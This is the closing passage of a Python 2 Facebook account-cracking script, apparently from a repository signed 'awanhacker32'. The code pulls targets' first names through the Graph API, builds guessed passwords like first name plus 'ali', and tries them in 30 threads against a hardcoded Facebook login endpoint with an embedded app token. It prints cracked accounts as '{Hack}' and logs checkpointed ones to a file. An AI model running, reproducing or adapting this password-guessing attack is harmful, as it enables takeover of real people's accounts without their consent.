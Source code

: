 															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = (j['first_name']+'ali')
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mawanhacker32\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
	print "  \033[1;91m«---•◈•---Developed By awanhacker32--•◈•---»" #Dev:awan_hacker32
	print '\033[1;91mProcess Has Been Completed\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;94m"+str(len(cekpoint))
	print """
             ▒▒▒███▒███▒███▒███▒▒
             ▒▒▒▒▒█▒█▒█▒▒▒█▒█▒█▒▒
             ▒▒▒███▒█▒█▒███▒█▒█▒▒
             ▒▒▒█▒▒▒█▒█▒█▒▒▒█▒█▒▒
             ▒▒▒███▒███▒███▒███▒▒
▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒.
: \033[1;93m.awanhacker32  awanhacker32.... \033[1;93m :
▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒.' 
                whatsapp Num
               +923056797272""
	
	raw_input("\n\033[1;93m[\033[1;91mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()
